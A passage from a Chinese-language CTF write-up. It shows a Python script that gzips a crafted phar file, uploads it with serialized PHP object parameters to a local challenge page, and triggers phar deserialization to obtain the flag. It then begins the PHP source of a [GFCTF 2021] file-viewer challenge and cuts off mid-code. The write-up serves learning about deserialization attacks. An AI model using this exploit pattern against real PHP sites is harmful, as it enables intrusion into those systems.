 python发包，避免特殊字符

```python
import requests
import gzip

url = 'http://localhost/temp/tttt.php'

file = open("./chang.phar", "rb") #打开文件
file_out = gzip.open("./ars2.zip", "wb+")#创建压缩文件对象
file_out.writelines(file)
file_out.close()
file.close()

requests.post(
    url,
    params={
        0: 'O:1:"A":{s:6:"config";s:1:"w";}'
    },
    data={
        0: open('./ars2.zip', 'rb').read()
    }
) # 写入

res = requests.post(
    url,
    params={
        0: 'O:1:"A":1:{s:6:"config";s:1:"r";}'
    },
    data={
        0: 'phar://tmp/a.txt'
    }
) # 触发

print(res.text)
```

![image-20220327000823801](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220327000823801.png)

得到flag

参考：[浅析GC回收机制与phar反序列化](http://arsenetang.com/2021/11/28/%E6%B5%85%E6%9E%90GC%E5%9B%9E%E6%94%B6%E6%9C%BA%E5%88%B6%E4%B8%8Ephar%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

### [GFCTF 2021]文件查看器

User.class.php

```php
<?php
	error_reporting(0);
    class User{
        public $username;   // new Myerror();
        public $password;   // [new User(), "check"];

        public function login(){
            include("view/login.html");
            if(isset($_POST['username'])&&isset($_POST['password'])){
                $this->username=$_POST['username'];
                $this->password=$_POST['password'];
                if($this->check()){
                    header("location:./?c=Files&m=read");
                }
            }
        }

```